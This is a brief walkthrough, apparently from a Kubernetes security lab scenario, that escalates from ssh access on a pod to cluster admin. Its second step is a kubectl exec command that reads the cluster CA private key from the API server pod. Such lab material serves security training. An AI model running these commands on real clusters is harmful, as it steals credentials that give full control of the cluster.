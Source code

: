 # SSH to Cluster Admin

### Compromising the cluster

This scenario begins with ssh access to a pod. The ssh credentials can be found in the scenario setup.

1. Get list of pods in kube-system namespace `kubectl get po -n kube-system` 
2. Grab the certificate `kubectl -n kube-system exec [API_SERVER_POD] -- cat /etc/kubernetes/pki/ca.key`
3. Profit!
